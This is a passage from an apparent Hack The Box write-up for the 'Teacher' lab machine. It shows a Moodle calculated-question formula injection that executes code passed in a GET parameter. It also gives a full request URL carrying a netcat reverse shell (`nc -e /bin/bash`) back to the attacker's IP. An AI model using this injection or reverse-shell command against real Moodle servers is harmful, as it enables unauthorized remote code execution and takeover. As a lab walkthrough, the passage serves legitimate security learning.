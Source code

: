 ![](/assets/images/htb-writeup-teacher/calculated.png)

We can put anything in the question name and text but for the formula we enter ``/*{a*/`$_GET[0]`;//{x}}``
![](/assets/images/htb-writeup-teacher/formula.png)

The formula will execute code we put in the `$_GET['0']` parameter:

`10.10.10.153/moodle/question/question.php?returnurl=%2Fmod%2Fquiz%2Fedit.php%3Fcmid%3D7%26addonpage%3D0&appendqnumstring=addquestion&scrollpos=0&id=6&wizardnow=datasetitems&cmid=7&0=(nc -e /bin/bash 10.10.14.23 4444)`

![](/assets/images/htb-writeup-teacher/formula2.png)
